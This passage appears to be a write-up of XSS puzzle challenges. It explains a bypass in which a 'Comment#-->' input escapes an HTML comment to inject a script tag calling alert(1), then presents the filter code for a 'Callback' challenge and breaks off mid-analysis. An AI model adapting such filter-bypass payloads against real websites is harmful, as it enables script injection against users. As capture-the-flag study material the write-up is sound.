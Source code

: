 ### comments
Noticing that it's calling _any_ `document` method, your first port of call is looking at [MDN- document docs](https://developer.mozilla.org/en-US/docs/Web/API/Document) to figure out _which_ method we'd like to exploit.
```
createAttribute()
createCDATASection()
createComment()
createDocumentFragment()
createElement()
createElementNS()
createEntityReference()
createEvent()
createExpression()
createNodeIterator()
createNSResolver()
createProcessingInstruction()
createRange()
createTextNode()
createTouch()
createTouchList()
createTreeWalker()
```

My first thought was "look for functions that take 2 arguments", because the use of additional `#`'s in the input + the use of `.apply()` means we can use additional args, which may be the trick.

But then I thought "which of these might not escape properly"
and it turns out `.createComment()` doesn't escape `-->` :upside_down_face:

### Win with:
```
Comment#--><script>alert(1)</script>
```
36 characters

## Callback
### filter
```javascript
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/);

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/</g, '\\u003c');
  return "<script>" + thing[0] + "(" + json +")</script>";
}
```
### comments
So the first thought is to call `alert`, but then it'll be called with the object. Then I thought we need something that will call the `values` within a JSON object. We could use `Object.values(<object>)` to get an array of the values in the array, but then we can't do any calls or anything.
